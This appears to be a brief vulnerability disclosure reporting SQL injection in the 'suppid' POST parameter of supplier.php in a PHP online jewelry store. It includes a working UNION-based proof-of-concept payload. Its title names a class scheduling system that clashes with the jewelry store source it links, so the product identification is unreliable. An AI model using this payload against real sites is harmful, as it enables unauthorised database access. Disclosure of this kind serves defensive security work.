 # Class Scheduling System v1.0 has SQL injection

BUG_Author：likaiwen

Website source address: https://www.sourcecodester.com/php/14631/online-jewelry-store-php-full-source-code.html

Vulnerability File: /jewerly_0/supplier.php

Vulnerability location: /jewerly_0/supplier.php POST parameters suppid.

Payload: suppid=-1' union all select null,null,concat(0x75767778,0x616263),null,null-- -

The union query is successful, and the string "uvwxabc" appears as expected, which proves that there is a SQL injection vulnerability

![image](https://github.com/raozhir/CVERequest/blob/main/1.png)
